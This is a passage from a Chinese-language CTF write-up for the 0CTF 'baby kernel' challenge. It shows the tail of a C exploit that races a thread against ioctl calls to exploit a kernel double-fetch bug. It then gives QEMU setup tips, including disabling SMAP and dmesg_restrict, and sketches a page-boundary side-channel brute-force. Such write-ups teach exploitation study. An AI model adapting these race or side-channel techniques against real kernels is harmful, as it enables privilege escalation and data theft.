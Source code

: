 ```c
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//構造attr數據結構
    t.len = 33;
    t.flag = buf;
    //新建惡意線程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```

### 其他
此題在環境配置時，有幾點需要注意。

首先， 需關閉 `dmesg_restrict` ，否則無法查看 `printk` 信息，具體操作是在啓動腳本中加入：

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

其次，配置 QEMU 啓動參數時， 不要開啓 `SMAP` 保護，否則在內核中直接訪問用戶態數據會引起 `kerne panic` 。

還有，配置 QEMU 啓動參數時，需要配置爲非單核單線程啓動，否則無法觸發題目中的競爭條件。具體操作是在啓動參數中增加其內核數選項，如：

```bash
-smp 2,cores=2,threads=1  \
```

> 在啓動後，可通過 `/proc/cpuinfo` 查看當前運行的內核數及超線程數。

最後，此題存在一種側信道攻擊的非預期解法：

>由於是 flag 是硬編碼的，並且是檢查方法是逐字節比較，因此可以逐字節爆破來得到 flag。
>
>方法是將待爆破的字節放在 mmap 申請的內存頁末位，此時下一字節位於不可讀寫的用戶態空間。當得到正確的一字節時，內核會比較用戶空間內下一個字節的正確性，由於該地址是不可讀的，將導致 `kernel panic`，從而可以判斷是否爆破的一個字節正確。

## Reference
https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html



